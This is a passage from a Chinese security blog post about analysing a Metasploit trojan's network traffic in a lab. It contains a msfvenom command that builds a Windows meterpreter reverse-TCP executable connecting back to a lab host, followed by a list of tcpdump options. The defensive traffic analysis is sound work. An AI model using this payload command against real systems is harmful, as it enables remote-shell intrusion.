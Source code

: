 ```yaml
---
layout: post
title:  "从网络扼杀Metasploit木马"
date:   2018-01-25
categories: 内网渗透
permalink: /archivers/2018-01-25/1
description: "本篇文章主要记录一下自己的网络分析过程，以及总结一下网络分析相关的技术点。"
---
```

本篇文章主要记录一下自己的网络分析过程，以及总结一下网络分析相关的技术点。


## 0x01 生成Metasploit木马


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=8877 -f exe -o hello.exe
```

基本可以看到，若目标执行**hello.exe**后会主动连接**10.211.55.2**的**8877**端口


### 网络环境：

* 10.211.55.2/255.255.255.0
* 10.211.55.11/255.255.255.0

## 0x02 获取数据过程

首先采用`tcpdump`这款命令行数据包分析工具：

```
-a：尝试将网络和广播地址转换成名称；
-c<数据包数目>：收到指定的数据包数目后，就停止进行倾倒操作；
-d：把编译过的数据包编码转换成可阅读的格式，并倾倒到标准输出；
-dd：把编译过的数据包编码转换成C语言的格式，并倾倒到标准输出；
-ddd：把编译过的数据包编码转换成十进制数字的格式，并倾倒到标准输出；
-e：在每列倾倒资料上显示连接层级的文件头；
-f：用数字显示网际网络地址；
-F<表达文件>：指定内含表达方式的文件；
-i<网络界面>：使用指定的网络截面送出数据包；
-l：使用标准输出列的缓冲区；
-n：不把主机的网络地址转换成名字；
-N：不列出域名；
-O：不将数据包编码最佳化；
-p：不让网络界面进入混杂模式；
-q ：快速输出，仅列出少数的传输协议信息；
-r<数据包文件>：从指定的文件读取数据包数据；
-s<数据包大小>：设置每个数据包的大小；
-S：用绝对而非相对数值列出TCP关联数；
-t：在每列倾倒资料上不显示时间戳记；
-tt： 在每列倾倒资料上显示未经格式化的时间戳记；
-T<数据包类型>：强制将表达方式所指定的数据包转译成设置的数据包类型；
-v：详细显示指令执行过程；
-vv：更详细显示指令执行过程；
-x：用十六进制字码列出数据包资料；
-w<数据包文件>：把数据包数据写入指定的文件。
```
